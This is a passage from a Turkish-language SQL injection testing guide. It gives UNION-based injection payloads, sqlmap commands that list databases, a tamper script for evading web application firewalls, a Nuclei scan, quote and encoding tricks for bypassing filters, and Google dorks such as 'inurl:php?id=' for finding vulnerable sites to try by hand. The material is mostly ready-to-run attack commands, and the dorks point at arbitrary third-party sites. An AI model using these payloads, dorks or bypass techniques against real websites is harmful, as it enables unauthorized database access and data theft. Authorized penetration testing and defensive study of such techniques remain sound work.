 🔴 UNION-Based SQLi Testi
Eğer SQL sorgusuna UNION operatörü eklenirse ve ek veriler çekilebiliyorsa, SQL Injection açığı olabilir.
sql
```sql
https://target.com/product.php?id=5 UNION SELECT 1,2,3,4,5 --
```
📌 Eğer sayfalarda yeni değerler görüntülenirse, SQLi açığı mevcut olabilir.

2️⃣ Otomatik Araçlarla SQL Açığı Tespiti
🔹 SQLmap ile SQL Açığı Tespiti
SQLmap, SQL Injection tespiti ve sömürme işlemleri için kullanılan en popüler araçlardan biridir.
📌 Temel tarama komutu:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dbs
✅ --dbs: Veritabanı adlarını listeler.
```
📌 Güvenlik duvarı (WAF) varsa yavaş tarama:
bash
```bash
sqlmap -u "https://target.com/product.php?id=5" --dbs --random-agent --tamper=space2comment
```
📌 Form verisi içeren istekleri test etmek için:
bash
```bash
sqlmap -u "https://target.com/login.php" --data="username=admin&password=1234" --dbs
```

🔹 Nuclei ile SQL Açığı Tespiti
Nuclei, SQL Injection dahil birçok güvenlik açığını test etmek için kullanılabilir.
bash
nuclei -t cves/ -u https://target.com

🔹 SQLi Dorkları ile Google'da Açık Arama
Google Dork kullanarak potansiyel SQL Injection açıkları olan siteleri bulabilirsiniz.
📌 Google Dork Örnekleri:
bash
```sql
inurl:"php?id="
inurl:"product.php?id="
```
💡 Açıklama: Google'da bu tür parametreleri içeren sayfaları bulup manuel test yapabilirsiniz.

3️⃣ WAF ve Güvenlik Önlemleri Olan Sitelerde SQLi Testi
Bazı web siteleri güvenlik duvarı (WAF) veya filtreleme mekanizmaları kullanır. Bu durumda:
🔹 Karakterleri Bypass Etme:
sql
```sql
id=5' --+
id=5'#
```
id=5" or "1"="1
🔹 Encodings Kullanma:
URL Encoding (%27 yerine ')
Hex Encoding (0x31 yerine 1)
Base64 Encoding
